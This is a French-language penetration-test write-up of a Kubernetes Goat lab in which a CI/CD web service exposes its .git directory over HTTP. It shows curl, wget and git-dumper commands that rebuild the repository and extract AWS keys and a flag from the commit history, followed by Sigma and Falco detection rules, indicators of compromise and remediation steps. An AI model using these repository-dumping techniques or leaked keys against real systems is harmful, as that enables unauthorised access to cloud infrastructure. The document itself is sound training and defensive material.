



# SC-CLD-001 — Sensitive Keys in Codebases

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-CLD-001 |
| **Nom** | Sensitive Keys in Codebases — Git History Credential Exposure |
| **Cible** | Service `build-code-service` (port 3000) → Image Docker avec `.git` embarqué |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.1 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) |
| **CWE** | CWE-798 (Hard-coded Credentials), CWE-540 (Inclusion of Sensitive Information in Source Code) |
| **MITRE ATT&CK** | T1552.001 (Unsecured Credentials: Credentials in Files), T1213 (Data from Information Repositories) |
| **Flag** | `k8s-goat-51bc78332065561b0c99280f62510bcc` |
| **Date** | 20 février 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur
Ce test démontre comment un **service CI/CD mal construit** expose son répertoire Git (`.git`) via HTTP, permettant à un attaquant **sans aucune authentification** de reconstruire l'historique complet du code source et de récupérer des **credentials AWS** (access key + secret key) qui avaient été committés par erreur puis supprimés. Ce scénario met en évidence deux vulnérabilités chaînées : une **image Docker qui embarque le `.git`** (supply chain) et un **serveur web qui expose ce `.git` via HTTP** (misconfiguration applicative). La suppression d'un secret dans Git ne l'efface pas de l'historique.

### Pour un auditeur ISO 27001 / NIS2
Non-conformité A.8.4 (Accès au code source), A.5.33 (Protection des enregistrements), A.8.9 (Gestion de la configuration), A.8.25 (Cycle de vie de développement sécurisé). Le pipeline CI/CD produit des images Docker contenant le répertoire `.git` complet avec des credentials AWS dans l'historique des commits. Le serveur web (Go Fiber) expose ce répertoire en statique via la directive `app.Static("/.git", "./.git")`. L'absence de `.dockerignore`, de scan de secrets et de revue de code viole les principes de sécurité dès la conception.

### Pour un RSSI
Impact : compromission de credentials AWS (access key ID + secret access key) et potentiellement de toute l'infrastructure cloud associée. Le vecteur est un service CI/CD exposé sur le réseau qui sert son répertoire Git via HTTP. Aucune authentification requise. Les credentials et le flag sont accessibles en moins de 5 requêtes HTTP. Coût estimé : 2 600 000 € à 14 300 000 € (compromission cloud + RGPD + supply chain + forensique + réputation). Rotation immédiate de toutes les clés AWS exposées requise, suivie d'un audit forensique des accès AWS sur la période d'exposition.

---

## Diagramme réseau réel (IPs / Services)



---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : Service `build-code-service` (port 3000), namespace `default`
- **Approche** : Boîte noire → reconnaissance HTTP externe, exploitation du `.git` exposé, analyse de l'historique
- **Outils** : curl, wget, git, git-dumper
- **Référentiel** : OWASP Kubernetes Security, CIS Kubernetes Benchmark, MITRE ATT&CK Cloud Matrix

---

## Phase 1 — Reconnaissance externe

### Découverte du service

Le service `build-code-service` est accessible via port-forward sur le port 1231. La page d'accueil indique un pipeline CI/CD utilisant Git, Docker et AWS — des mots-clés qui orientent l'attaquant vers la recherche de credentials.

```
Build Code
Welcome to the build code service. This service is built using containers
with CI/CD pipelines and modern toolset like Git, Docker, AWS, and many other.
```

### Détection du `.git` exposé

La première action d'un pentester sur un service web est de vérifier l'exposition de répertoires sensibles. Le `.git` est le premier à tester :

```bash
# Depuis la Battlebox — accès externe via tunnel
$ curl -s http://127.0.0.1:1231/.git/HEAD
ref: refs/heads/master

$ curl -s http://127.0.0.1:1231/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
```

**Analyse :** Le `.git` est entièrement accessible via HTTP sans authentification. Le serveur Go Fiber expose le répertoire via la directive `app.Static("/.git", "./.git")`. Un attaquant peut reconstruire le dépôt complet.

### Récupération du hash du dernier commit

```bash
$ curl -s http://127.0.0.1:1231/.git/refs/heads/master
905dcec070d86ce60822d790492d7237884df60a
```

---

## Phase 2 — Reconstruction du dépôt

### Méthode automatisée (git-dumper)

```bash
# Outil standard pour reconstruire un dépôt depuis un .git exposé
$ git-dumper http://target:3000/.git/ ./dumped-repo
```

### Méthode manuelle (wget)

```bash
# Téléchargement récursif des objets Git
$ wget -r -np http://target:3000/.git/
```

### Analyse du code source

Le fichier `main.go` confirme la vulnérabilité :

```go
// VULNERABLE — expose le .git complet via HTTP
app.Static("/.git", "./.git")
```

---

## Phase 3 — Extraction des credentials

### Historique des commits

```bash
$ git log --oneline --all
905dcec (HEAD -> master) Final release
3292ff3 Updated the docs
7daa5f4 updated the endpoints and routes
d7c173a Inlcuded custom environmental variables
bb2967a Added ping endpoint
599f377 Basic working go server with fiber
4dc0726 Initial commit with README
```

**Commit suspect identifié :** `d7c173a` — "Included custom environmental variables". Ce message suggère l'ajout de variables d'environnement contenant des secrets.

### Extraction du fichier `.env`

```bash
$ git show d7c173a
commit d7c173ad183c574109cd5c4c648ffe551755b576
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Fri Nov 6 23:31:06 2020 +0100

    Inlcuded custom environmental variables

diff --git a/.env b/.env
new file mode 100644
--- /dev/null
+++ b/.env
@@ -0,0 +1,5 @@
+[build-code-aws]
+aws_access_key_id = AKIVSHD6243H22G1KIDC
+aws_secret_access_key = cgGn4+gDgnriogn4g+34ig4bg34g44gg4Dox7c1M
+k8s_goat_flag = k8s-goat-51bc78332065561b0c99280f62510bcc
```

### Chronologie de l'erreur du développeur

```bash
# Commit d7c173a — Le développeur AJOUTE le .env
$ git show d7c173a --stat
 .env | 5 +++++

# Commit 7daa5f4 — Le développeur SUPPRIME le .env
$ git show 7daa5f4 --stat
 .env | 5 -----

# Commit 905dcec — "Final release"
$ git show 905dcec --stat
 app | Bin 0 -> 11773672 bytes
```

| Étape | Commit | Action du développeur | Conséquence sécurité |
|-------|--------|----------------------|---------------------|
| 1 | `d7c173a` | Ajoute `.env` avec AWS credentials | Credentials dans Git |
| 2 | `7daa5f4` | Supprime `.env` du répertoire de travail | Credentials toujours dans l'historique |
| 3 | `905dcec` | "Final release" — compile le binaire | `.git` embarqué dans l'image Docker |
| 4 | Déploiement | `app.Static("/.git", "./.git")` | Credentials accessibles via HTTP |

### Vérification que le `.env` n'existe plus en surface

```bash
$ cat .env
cat: can't open '.env': No such file or directory
```

Le fichier a été supprimé dans un commit ultérieur. Le développeur pensait avoir corrigé son erreur. **L'historique Git conserve toutes les modifications — la suppression est inefficace.**

---

## Données exfiltrées

| Donnée | Source | Valeur | Criticité |
|--------|--------|--------|-----------|
| **AWS Access Key ID** | `.env` (commit `d7c173a`) | `AKIVSHD6243H22G1KIDC` | 🔴 Critique |
| **AWS Secret Access Key** | `.env` (commit `d7c173a`) | `cgGn4+gDgnriogn4g+34ig4bg34g44gg4Dox7c1M` | 🔴 Critique |
| **Flag** | `.env` (commit `d7c173a`) | `k8s-goat-51bc78332065561b0c99280f62510bcc` | 🔴 Critique |
| Code source complet | Tous les commits | Application Go (Fiber), routes, configuration | 🟡 Moyen |
| Historique des commits | `.git/logs` | Auteur, dates, messages de commit | 🟡 Moyen |
| Email du développeur | Git log | `madhu.akula@hotmail.com` | 🟡 Moyen |

---

## Impact technique

Un attaquant qui exploite cette vulnérabilité obtient :

1. **Accès complet à l'infrastructure AWS** — Les credentials AWS permettent d'accéder à tous les services AWS autorisés : EC2, S3, RDS, Lambda, IAM. L'attaquant peut lire, modifier ou supprimer des données, créer de nouvelles ressources, ou escalader ses privilèges via IAM.

2. **Code source de l'application** — Le dépôt Git complet permet de comprendre l'architecture, identifier d'autres vulnérabilités, et préparer des attaques ciblées.

3. **Informations d'identité** — L'email du développeur donne des informations pour du spear-phishing ciblé.

4. **Vecteur de supply chain** — Si les credentials AWS donnent accès au registre d'images Docker (ECR), l'attaquant peut modifier les images de production.

---

## Impact métier — MediaTech Groupe SA

### Estimation financière

| Impact | Estimation | Justification |
|--------|-----------|---------------|
| **Compromission infrastructure cloud** | 1 000 000 € à 5 000 000 € | Credentials AWS → accès données clients, bases de données, services de production |
| **Amende RGPD** | 500 000 € à 4 000 000 € | Violation RGPD Art. 83(4) si données personnelles sur S3/RDS |
| **Supply chain attack** | 500 000 € à 3 000 000 € | Modification images Docker via ECR compromis |
| **Investigation forensique** | 100 000 € à 300 000 € | Audit CloudTrail, rotation clés, revue code, analyse images Docker |
| **Atteinte réputationnelle** | 500 000 € à 2 000 000 € | Groupe de presse compromis → perte confiance sources et lecteurs |
| **TOTAL estimé** | **2 600 000 € à 14 300 000 €** | |

### Matrice de risque



### Impact réglementaire

- **RGPD** — Violation des articles 5(1)(f) (intégrité et confidentialité), 32 (mesures techniques). Credentials cloud en clair dans un dépôt Git accessible publiquement.
- **NIS2** — Non-conformité Article 21 (sécurité de la chaîne d'approvisionnement). Pipeline CI/CD exposé met en danger toute la chaîne de production logicielle.
- **ISO 27001** — Non-conformité A.8.4 (Accès au code source), A.5.33 (Protection des enregistrements), A.8.25 (Cycle de vie de développement sécurisé).

---

## Détection SOC / SIEM

### Logs exploitables

| Source | Log | Indicateur |
|--------|-----|------------|
| **Access logs web (Fiber/Go)** | `GET /.git/HEAD`, `GET /.git/config` | Accès au répertoire `.git` via HTTP |
| **AWS CloudTrail** | API calls avec la clé `AKIVSHD6243H22G1KIDC` | Utilisation de credentials compromises |
| **WAF / Reverse proxy** | Pattern `/.git/` dans les URLs | Tentative d'accès au dépôt Git |
| **Kubernetes Audit Log** | Accès au pod `build-code-deployment` | Activité anormale |

### Règles Sigma

```yaml
# Sigma Rule 1 — Accès au répertoire .git via HTTP
title: HTTP Access to Exposed Git Repository
id: sc-cld-001-001
status: experimental
description: Détecte les requêtes HTTP vers un répertoire .git exposé sur un serveur web
logsource:
    category: webserver
    product: any
detection:
    selection:
        cs-uri-stem|contains:
            - '/.git/HEAD'
            - '/.git/config'
            - '/.git/objects'
            - '/.git/refs'
            - '/.git/logs'
    condition: selection
level: high
tags:
    - attack.credential_access
    - attack.t1552.001
    - attack.reconnaissance
    - attack.t1213
falsepositives:
    - Outils de développement légitimes
    - Scans de sécurité internes
---

# Sigma Rule 2 — Téléchargement massif d'objets Git
title: Mass Download of Git Objects via HTTP
id: sc-cld-001-002
status: experimental
description: Détecte un téléchargement massif d'objets Git indiquant une reconstruction de dépôt
logsource:
    category: webserver
    product: any
detection:
    selection:
        cs-uri-stem|contains: '/.git/objects/'
    condition: selection | count() > 20
    timeframe: 5m
level: critical
tags:
    - attack.collection
    - attack.t1213
---

# Sigma Rule 3 — Utilisation de credentials AWS compromises
title: AWS API Calls with Compromised Access Key
id: sc-cld-001-003
status: experimental
description: Détecte l'utilisation d'une clé AWS marquée comme compromise
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        userIdentity.accessKeyId:
            - 'AKIVSHD6243H22G1KIDC'
    condition: selection
level: critical
tags:
    - attack.initial_access
    - attack.t1078.004
```

### Règle Falco

```yaml
- rule: HTTP Access to Git Repository in Container
  desc: Détecte l'accès HTTP au répertoire .git d'un service web dans le cluster
  condition: >
    evt.type in (accept, connect) and
    fd.sport = 3000 and
    fd.sip != "127.0.0.1" and
    container.name = "build-code"
  output: >
    WARNING: External access to build-code service
    (container=%container.name pod=%k8s.pod.name
     src=%fd.cip sport=%fd.sport connection=%fd.name)
  priority: WARNING
  tags: [k8s, cicd, credential_access, T1552.001]
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **URL pattern** | `GET /.git/HEAD` | Premier indicateur de reconnaissance .git |
| **URL pattern** | `GET /.git/objects/*/*` | Reconstruction de dépôt Git |
| **AWS Access Key** | `AKIVSHD6243H22G1KIDC` | Clé compromise — à révoquer immédiatement |
| **User-Agent** | `git-dumper`, `GitTools`, `wget` récursif | Outils de reconstruction Git |
| **Commit hash** | `d7c173ad183c574109cd5c4c648ffe551755b576` | Commit contenant les credentials |
| **Email** | `madhu.akula@hotmail.com` | Identité du développeur (cible phishing) |

---

## Remédiation — Secure by Design

### Immédiat (24h) — Stopper l'exposition

1. **Supprimer la ligne qui expose le `.git`** dans le code source :

```go
// SUPPRIMER cette ligne
app.Static("/.git", "./.git")
```

2. **Révoquer immédiatement les credentials AWS** :

```bash
aws iam delete-access-key --access-key-id AKIVSHD6243H22G1KIDC --user-name build-code-service
aws iam create-access-key --user-name build-code-service
```

3. **Auditer les accès AWS** avec CloudTrail :

```bash
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=AccessKeyId,AttributeValue=AKIVSHD6243H22G1KIDC \
  --start-time 2020-11-06 --end-time $(date -I)
```

### Court terme (1 semaine) — Prévention

4. **Ajouter `.git` au `.dockerignore`** :

```
.git
.env
*.key
*.pem
```

5. **Builds multi-stage Docker** pour exclure le code source :

```dockerfile
# Stage 1 — Build
FROM golang:1.21-alpine AS builder
WORKDIR /build
COPY . .
RUN go build -o app .

# Stage 2 — Runtime (pas de .git, pas de source)
FROM alpine:3.18
WORKDIR /app
COPY --from=builder /build/app .
COPY --from=builder /build/views ./views
CMD ["./app"]
```

6. **Pre-commit hooks** avec gitleaks :

```yaml
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.0
    hooks:
      - id: gitleaks
```

7. **Scan de secrets dans le pipeline CI/CD** :

```yaml
secret-scan:
  stage: test
  image: zricethezav/gitleaks:latest
  script:
    - gitleaks detect --source . --verbose
  allow_failure: false
```

### Moyen terme (1 mois) — Architecture sécurisée

8. **Migrer les secrets** vers HashiCorp Vault ou AWS Secrets Manager — injection runtime uniquement.

9. **Nettoyer l'historique Git** avec BFG Repo-Cleaner :

```bash
bfg --delete-files .env repo.git
cd repo.git
git reflog expire --expire=now --all
git gc --prune=now --aggressive
git push --force
```

10. **WAF/Ingress** bloquer les accès aux répertoires cachés :

```yaml
apiVersion: traefik.io/v1alpha1
kind: Middleware
metadata:
  name: block-git-access
spec:
  replacePathRegex:
    regex: "^/\\.git.*"
    replacement: "/403"
```

11. **Rotation automatique des credentials AWS** via IAM + Secrets Manager.

12. **Audit trimestriel** des images Docker avec Trivy/Grype.

---

## Architecture cible sécurisée

```mermaid
graph LR
    DEV["Développeur"] -->|"git push"| HOOK["Pre-commit Hook<br/>gitleaks"]
    HOOK -->|"Clean"| REPO["Git Repository"]
    HOOK -->|"Secret détecté"| BLOCK["Commit bloqué<br/>Alerte SecOps"]
    REPO -->|"CI/CD Pipeline"| GITLEAKS["Gitleaks scan<br/>Pipeline gate"]
    GITLEAKS -->|"Clean"| BUILD["Multi-stage Build<br/>.dockerignore exclut .git"]
    BUILD -->|"Image"| TRIVY["Trivy/Grype<br/>Scan secrets embarqués"]
    TRIVY -->|"Clean"| DEPLOY["Déploiement K8s"]
    VAULT["HashiCorp Vault"] -.->|"Secrets runtime"| DEPLOY
    DEPLOY -->|"Logs"| WAF["WAF<br/>Block /.git patterns"]
    WAF -->|"Alertes"| SOC["Wazuh SIEM"]

    style HOOK fill:#27ae60,color:#fff
    style BLOCK fill:#e74c3c,color:#fff
    style GITLEAKS fill:#2980b9,color:#fff
    style VAULT fill:#8e44ad,color:#fff
    style WAF fill:#e67e22,color:#fff
```



---

## Comparaison — Vulnérable vs Sécurisé

| Aspect | Configuration vulnérable | Configuration sécurisée |
|--------|--------------------------|------------------------|
| **Code source** | `app.Static("/.git", "./.git")` | Ligne supprimée, WAF bloque `/.git` |
| **Secrets** | Fichier `.env` dans le dépôt Git | Vault/Secrets Manager, injection runtime |
| **Image Docker** | Contient `.git`, `.env`, code source | Multi-stage, binaire seul, `.dockerignore` |
| **Pipeline CI/CD** | Aucun scan de secrets | Gitleaks + Trivy + pre-commit hooks |
| **Historique Git** | Credentials dans les anciens commits | BFG Repo-Cleaner + rotation des clés |
| **Monitoring** | Aucun log d'accès au `.git` | WAF logs + Falco + CloudTrail |

---

## Statistiques réelles

| Source | Statistique | Année |
|--------|-------------|-------|
| GitGuardian State of Secrets Sprawl | 23.8 millions de secrets exposés sur GitHub public | 2025 |
| GitGuardian | 70% des secrets encore actifs après 2 ans | 2025 |
| GitGuardian | Temps d'exploitation après exposition : moins de 5 minutes | 2025 |
| GitProtect | 65% des entreprises Forbes AI 50 ont des fuites confirmées | 2026 |
| IBM Cost of a Data Breach | Les brèches impliquant des credentials compromises coûtent en moyenne 4.81M$ | 2024 |

---

## Références

| Référence | Lien |
|-----------|------|
| MITRE ATT&CK T1552.001 — Credentials in Files | https://attack.mitre.org/techniques/T1552/001/ |
| MITRE ATT&CK T1213 — Data from Information Repositories | https://attack.mitre.org/techniques/T1213/ |
| CWE-798 — Hard-coded Credentials | https://cwe.mitre.org/data/definitions/798.html |
| CWE-540 — Sensitive Information in Source Code | https://cwe.mitre.org/data/definitions/540.html |
| Gitleaks — Secret Scanner | https://github.com/gitleaks/gitleaks |
| BFG Repo-Cleaner | https://rtyley.github.io/bfg-repo-cleaner/ |
| git-dumper — Dump exposed .git | https://github.com/arthaud/git-dumper |
| GitGuardian State of Secrets Sprawl 2025 | https://www.gitguardian.com/state-of-secrets-sprawl-report-2025 |
| AWS IAM Best Practices | https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html |

---

*HikenRoot Forge — SC-CLD-001 — hik3nR00t — Février 2026*
